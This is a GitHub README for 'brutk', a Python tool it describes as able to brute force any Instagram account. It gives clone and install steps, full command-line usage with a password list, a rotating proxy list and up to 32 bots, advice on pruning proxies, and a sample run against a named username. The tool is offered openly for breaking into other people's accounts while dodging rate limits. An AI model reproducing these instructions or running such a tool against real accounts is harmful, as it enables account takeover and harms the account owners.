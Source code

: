 # brutk 

This program will brute force any Instagram account 
# Requirements 

Python v3.9


proxy list 

# Installation 

git clone https://github.com/Khalidhusain786/brutk.git

cd brutk 


pip install pipenv  
 
 
pipenv --python 3.9 


pipenv install 


pipenv shell



 
# Help

usage:  instagram.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit 
  
  -u USERNAME, --username USERNAME
                        email or username 
                        
  -p PASSLIST, --passlist PASSLIST 
                        password list 
                        
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list 
                        
  --prune PRUNE         prune the database 
  
  --stats               get statistics of the proxies 
  
  -nc, --no-color       disable colors 
  
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots 
  
 
 
 
  # Prune 
 
 
 This allows the able to get rid of proxies with a score below a given score.

It is recommended that you run the --stats and prune the database of proxies 
 
 
 

 python instagram.py --prune 0.05

 
 
 
Pruning is not a requirement because the

the system will automatically learn which proxies perform poorly and stop using them.
 
 
 # Usage 
 
 python instagram.py -u <username> -p <passlist> -px (proxylist) -m (mode)

  
# Run 
 
Wordlist: gali.txt

[-] Username: galikachora
 

[-] Password: 580
 

[-] Complete: 65.51%

[-] Attempts: 350

[-] Browsers: 280

[-] Exists: True
  




